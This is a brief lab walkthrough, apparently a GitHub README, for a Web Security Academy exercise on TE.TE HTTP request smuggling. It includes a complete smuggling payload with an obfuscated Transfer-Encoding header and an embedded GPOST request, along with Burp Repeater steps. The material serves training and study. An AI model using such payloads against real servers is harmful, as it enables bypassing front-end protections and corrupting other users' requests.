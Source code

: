 # obfuscating-te-header

## This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

### Note: => TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### step1

![screenshot](./images/images_lab3/lab3_get_request_homepage.png)

### step2

![screenshot](./images/images_lab3/lab3_post_request_homepage.png)

### step3

unchecked Update Content-Length in repeater setting
add payload

### Note:

### Transfer-Encoding: chunked

### Transfer-Encoding: chunked

if both will chunked then payload will not work

```
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: xchunked

9d
GPOST / HTTP/1.1
Host: 0a5b002e03412337873679e2002900db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![screenshot](./images/images_lab3/lab3_payload.png)

### step4

![screenshot](./images/images_lab3/lab3_solved_message.png)
